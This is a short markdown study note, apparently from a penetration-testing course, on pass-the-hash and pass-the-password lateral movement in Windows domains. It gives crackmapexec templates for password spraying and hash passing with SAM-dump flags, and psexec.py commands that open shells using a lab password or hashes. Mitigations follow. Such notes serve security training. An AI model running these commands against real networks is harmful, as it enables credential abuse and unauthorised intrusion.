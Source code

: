 # Pass the Hash/Password

## What is it?

* using cracked passwords and SAM hashes for lateral movement in the network
* super powerful

## Crackmapexec Pass the Password

#### Crackmapexec Command

```bash
crackmapexec <protocol: smb is best> <ip/CIDR> -u <user> -d <domain> -p <pass>
```

#### Password Spraying?

* Domain Accounts have a lockout policy, but local accounts do not
* hammer local accounts!

#### Popping a Shell with the Credentials Received

```bash
psexec.py marvel/fcastle:'P@$$w0rd!'@172.16.35.6
```

#### Useful Flags

```bash
--sam # Flag to attempt a SAM dump at success
--shares # Enumerate shares
--help # Read the docs
```

## Crackmapexec Pass the Hash \(cannot pass NTLMv2\)

```bash
crackmapexec <protcol: smb is best> <ip/CIDR> -u <user> -H <last hash part>
```

#### Popping a Shell with the Credentials Received

```bash
psexec.py “frank castle”:@172.16.35.7 -hashes <LM+NT aka the whole hash>
```

## Mitigations

#### Limit Account Reuse

* avoid re-using local admin password
* disable Guest and Administrator accounts
* limit who is local administrator \(least privilege\)

#### Utilize Strong Passwords

* the longer the better \(&gt;14 characters\)
* avoid using common words
* i like long sentences

#### Privilege Access Management \(PAM\)

* check out/in sensitive accounts when needed
* automatically rotate passwords on check out and check in
* limits pass attacks on hash/password if strong and constantly rotated

